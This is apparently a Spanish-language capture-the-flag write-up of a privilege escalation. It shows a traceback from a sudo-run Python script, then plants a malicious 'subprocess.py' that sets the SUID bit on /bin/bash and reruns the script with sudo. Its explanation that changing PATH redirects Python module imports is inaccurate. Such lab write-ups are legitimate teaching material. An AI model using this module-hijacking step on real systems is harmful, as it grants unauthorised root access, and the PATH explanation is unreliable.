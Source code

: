 Info:

```
Ojo Aqui
Processed data: tHIS IS SOME DUMMY DATA THAT NEEDS TO BE PROCESSED.
Useless calculation result: 499999500000
Traceback (most recent call last):
  File "/opt/paw.py", line 41, in <module>
    main()
  File "/opt/paw.py", line 38, in main
    run_command()
  File "/opt/paw.py", line 30, in run_command
    subprocess.run(['echo Hello!'], check=True)
  File "/usr/lib/python3.12/subprocess.py", line 548, in run
    with Popen(*popenargs, **kwargs) as process:
         ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.12/subprocess.py", line 1026, in __init__
    self._execute_child(args, executable, preexec_fn, close_fds,
  File "/usr/lib/python3.12/subprocess.py", line 1955, in _execute_child
    raise child_exception_type(errno_num, err_msg, err_filename)
FileNotFoundError: [Errno 2] No such file or directory: 'echo Hello!'
```

Veremos que nos esta dando un error en la siguiente ruta:

```
/usr/lib/python3.12/subprocess.py
```

Ya que no admite algun caracter en el que esta en el script, en concreto en esta parte de aqui:

```python
def run_command():
    subprocess.run(['echo Hello!'], check=True)
```

Lo que vamos hacer es cambiar el `PATH` para que pille primero el `subprocess.py` nuestro malicioso y que no pille el de la ruta `/usr/lib/python3.12/subprocess.py` ya que no esta utilizando una ruta `absoluta` en el script a la hora de importar el modulo.

```shell
export PATH=/opt:$PATH
```

Y ahora crearemos el script malicioso:

> subprocess.py

```python
import os

os.system('chmod u+s /bin/bash')
```

Lo guardamos y ejecutamos lo siguiente:

```shell
sudo python3 /opt/paw.py
```
